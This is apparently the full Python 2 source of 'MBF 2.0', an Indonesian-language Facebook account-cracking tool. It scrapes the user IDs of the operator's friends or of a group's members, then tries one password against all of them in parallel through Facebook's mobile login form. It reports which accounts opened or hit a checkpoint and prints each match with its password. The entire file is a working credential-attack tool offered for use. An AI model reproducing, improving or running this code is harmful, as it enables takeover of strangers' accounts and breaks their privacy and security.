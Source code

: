 # mbf
TOOLS  CURI  FB
import platform,os,sys
def cetak(x,e=0):
	w = 'mhkbpcP'
	for i in w:
		j = w.index(i)
		x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
	x += '\033[0m'
	x = x.replace('!0','\033[0m')
	if e != 0:
		sys.stdout.write(x)
	else:
		sys.stdout.write(x+'\n')
if platform.python_version().split('.')[0] != '2':
	cetak('!m[!] Kamu menggunakan python versi %s silahkan menggunakan versi 2.x.x'%v().split(' ')[0])
	sys.exit()
import cookielib,re,urllib2,urllib,threading
try:
  import mechanize
except ImportError:
	cetak('!m[!] SepertiNya Module !cmechanize!m belum di install...\n!h[!] pip2 install mechanize')
	sys.exit()
br = 0
log = 0
id_bteman = []
id_bgroup = []
fid_bteman = []
fid_bgroup = []
class mt(threading.Thread):
	def __init__(self,i,p):
		threading.Thread.__init__(self)
		self.id = i
		self.a = 0
		self.p = p
	def update(self):
		return self.a,self.id
	def run(self):
		try:
			data = urllib2.urlopen(urllib2.Request(url='https://m.facebook.com/login.php',data=urllib.urlencode({'email':self.id,'pass':self.p}),headers={'User-Agent':'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16'}))
		except KeyboardInterrupt:
			sys.exit()
		except:
			self.a = 4
			sys.exit()
		if 'm_sess' in data.url or 'save-device' in data.url:
			self.a = 1
		elif 'checkpoint' in data.url:
			self.a = 2
		else:
			self.a = 3
def crack(d):
	while 1:
		s = inputD('[?] Sandi')
		if len(s) < 6:
			cetak('!m[!] Jumlah huruf minimal !k6')
		else:
			break
	return crack0(d,s)
def tampilhasil(akun,sandi,data):
	cekpoint = []
	salah = 0
	berhasil = []
	for i in akun:
		st,id = i
		if st == 1:
			berhasil.append(id)
		elif st == 2:
			cekpoint.append(id)
		elif st == 3:
			salah += 1
	cetak('!h[*] Berhasil !c%d'%len(berhasil))
	if len(berhasil) != 0:
		for i in berhasil:
			cetak('!h### !p%s !m=> !b[!k%s!b]'%(i,sandi))
	cetak('!k[*] Cekpoint !c%d'%len(cekpoint))
	if len(cekpoint) != 0:
		for i in cekpoint:
			cetak('!k### !p%s !m=> !b[!k%s!b]'%(i,sandi))
	cetak('!m[*] Gagal    !c'+str(salah))
	i = inputD('[?] maaf,cuma segitu. Mau crack lagi (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(data)
	else:
		return menu()
def crack0(data,sandi):
	akun = []
	cetak('!h[*] MengCrack !k%d Akun !hdengan sandi !m[!k%s!m]'%(len(data),sandi))
	cetak('!h[*] Cracking  !k0!m%',1)
	sys.stdout.flush()
	jml0,jml1 = 0,0
	th = []
	for i in data:
		i = i.replace(' ','')
		i = i.replace('\n','')
		if len(i) != 0:th.append(mt(i,sandi))
		jml1 += 1
	for i in th:
		i.daemon = True
		try:i.start()
		except KeyboardInterrupt:exit()
	h_error = []
	error = 0
	while 1:
		try:
			for i in th:
				status,id = i.update()
				if status != 0:
					cetak('\r!h[*] Cracking  !k%d!m%s!0'%(int(float((float(jml0)/float(jml1))*100)),'%'),1)
					sys.stdout.flush()
					del(th[th.index(i)])
					if status == 4:
						h_error.append(id)
						if h_error.count(id) == 3:
							pass
						else:
							th.append(mt(id,sandi))
							th[len(th)-1].daemon = True
							th[len(th)-1].start()
					else:
						jml0 += 1
						akun.append((status,id))
		except KeyboardInterrupt:
			sys.exit()
		try:
			if threading.activeCount() == 1:break
		except KeyboardInterrupt:
			keluar()
	cetak('\r!h[*] Cracking  !k100!m%      ')
	tampilhasil(akun,sandi,data)
def install_browser():
	global br
	br = mechanize.Browser()
	br.set_handle_robots(False)
	br.set_handle_equiv(True)
	br.set_handle_referer(True)
	br.set_cookiejar(cookielib.LWPCookieJar())
	br.set_handle_redirect(True)
	br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
	br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
def bacaData():
	global fid_bgroup,fid_bteman
	try:
		fid_bgroup = open(os.sys.path[0]+'/MBFgroup.txt','r').readlines()
	except:pass
	try:
		fid_bteman = open(os.sys.path[0]+'/MBFteman.txt','r').readlines()
	except:pass
def simpan():
	if len(id_bgroup) != 0:
		cetak('!h[*] Menyimpan hasil dari Group')
		try:
			open(os.sys.path[0]+'/MBFgroup.txt','w').write('\n'.join(id_bgroup))
			cetak('!h[!] Berhasil meyimpan !cMBFgroup.txt')
		except:
			cetak('!m[!] Gagal meyimpan')
	if len(id_bteman) != 0:
		cetak('!h[*] Menyimpan hasil daftar Teman...')
		try:
			open(os.sys.path[0]+'/MBFteman.txt','w').write('\n'.join(id_bteman))
			cetak('!h[!] Berhasil meyimpan !cMBFteman.txt')
		except:
			cetak('!m[!] Gagal meyimpan')
def keluar():
	simpan()
	cetak('!m[!] Keluar')
	sys.exit()
def inputD(x,v=0):
	while 1:
		try:
			a = raw_input('\x1b[32;1m%s\x1b[31;1m:\x1b[33;1m'%x)
		except:
			cetak('\n!m[!] Batal')
			keluar()
		if v:
			if a.upper() in v:
				break
			else:
				cetak('!m[!] Masukan Opsinya Bro...')
				continue
		else:
			if len(a) == 0:
				cetak('!m[!] Masukan dengan benar')
				continue
			else:
				break
	return a
def inputM(x,d):
	while 1:
		try:
			i = int(inputD(x))
		except:
			cetak('!m[!] Pilihan tidak ada')
			continue
		if i in d:
			break
		else:
			cetak('!m[!] Pilihan tidak ada')
	return i
def lanjutG():
	global fid_bgroup
	if len(fid_bgroup) != 0:
		i = inputD('[?] Riset Hasil Id Group/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bgroup)
		else:
			os.remove(os.sys.path[0]+'/MBFgroup.txt')
			fid_bgroup = []
	return 0
def lanjutT():
	global fid_bteman
	if len(fid_bteman) != 0:
		i = inputD('[?] Riset Hasil Id Teman/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bteman)
		else:
			os.remove(os.sys.path[0]+'/MBFteman.txt')
			fid_bteman = []
	return 0
def buka(d):
	try:
		x = br.open(d)
		br._factory.is_html = True
		x = x.read()
	except:
		cetak('\r!m[!] Gagal membuka !p'+str(d))
		keluar()
	if '<link rel="redirect" href="' in x:
		return buka(br.find_link().url)
	else:
		return x
def login():
	global log
	us = inputD('[?] Email/HP')
	pa = inputD('[?] Kata Sandi')
	cetak('!h[*] Sedang Login....')
	buka('https://m.facebook.com')
	br.select_form(nr=0)
	br.form['email']=us
	br.form['pass']=pa
	br.submit()
	url = br.geturl()
	if 'save-device' in url or 'm_sess' in url:
		buka('https://mobile.facebook.com/home.php')
		nama = br.find_link(url_regex='logout.php').text
		nama = re.findall(r'\((.*a?)\)',nama)[0]
		cetak('!h[*] Selamat datang !k%s'%nama)
		cetak('!h[*] Semoga ini adalah hari keberuntungan mu...')
		log = 1
	elif 'checkpoint' in url:
		cetak('!m[!] Akun kena checkpoint\n!k[!]Coba Login dengan opera mini')
		keluar()
	else:
		cetak('!m[!] Login Gagal')
def idgroup():
	if log != 1:
		cetak('!h[*] Login !bFB!h dulu bos...')
		login()
		if log == 0:
			keluar()
	next = saring_id_group0()
	while 1:
		saring_id_group1(buka(next))
		try:
			next = br.find_link(url_regex='/browse/group/members/').url
		except:
			cetak('!m[!] Hanya Bisa Mengambil !h %d id'%len(id_bgroup))
			break
	simpan()
	i = inputD('[?] Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bgroup)
	else:
		return menu()
def saring_id_teman(r):
	for i in re.findall(r'/friends/hovercard/mbasic/\?uid=(.*?)&',r):
		id_bteman.append(i)
def idteman():
	if log != 1:
		cetak('!h[*] Login !bFB !hdulu bos...')
		login()
		if log == 0:
			keluar()
	cetak('!h[*] Sedang mengumpulkan id teman...')
	buka('https://m.facebook.com/friends/center/mbasic/?fb_ref=bm&sr=1&ref_component=mbasic_bookmark&ref_page=XMenuController')
	jumlah = br.find_link(url_regex='/friends/center/friends/').text
	jumlah = re.findall(r'\((.*a?)\)',jumlah)[0]
	cetak('!h[*] Mengambil !p%s !hid teman'%jumlah) 
	saring_id_teman(buka('https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuController'))
	try:
		next = br.find_link(url_regex='friends_center_main').url
	except:
		if len(id_teman) != 0:
			cetak('!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))
		else:
			cetak('!m[!] Batal')
			keluar()
	while 1:
		saring_id_teman(buka(next))
		cetak('\r!h[*] !p%s !hid terambil...'%len(id_bteman),1)
		sys.stdout.flush()
		try:
			next = br.find_link(url_regex='friends_center_main').url
		except:
			cetak('\n!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))
			break
	simpan()
	i = inputD('[?] Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bteman)
	else:
		return menu()
def menu():
	cetak("\n           !h.-.-..\n          /+/++//\n         /+/++//\n  !k*   !k* !h/+/++//\n   \ /  |/__//\n !h{!mX!h}v{!mX!h}!0!b|!cMBF!b|==========.\n   !h(!m'!h)!0  !h/'|'\           !b\\\n       !h/  \  \          !b'\n       !h\_  \_ \_   !k___!mMBF !c2.0!k___\n\n !m* !bMULTI BRUTEFORCE FACEBOOK\n !m* !cPIRMANSX\n !m* !phttps://github.com/pirmansx\n !m* !phttps://facebook.com/groups/164201767529837\n !m* !phttps://pirmansx.waper.com\n!k.======================.\n|!h  AMBIL !mID!h DARI.....  !k|\n'======================'\n!k#!p1 !hDAFTAR TEMAN\n!k#!p2 !hANGGOTA GROUP\n!k#!p3 !mKELUAR...")
	i = inputM('[?] PILIH',[1,2,3])
	if i == 2:
		lanjutG()
		idgroup()
	elif i == 1:
		lanjutT()
		idteman()
	elif i == 3:
		keluar()
bacaData()
install_browser()
menu()
#
#
#
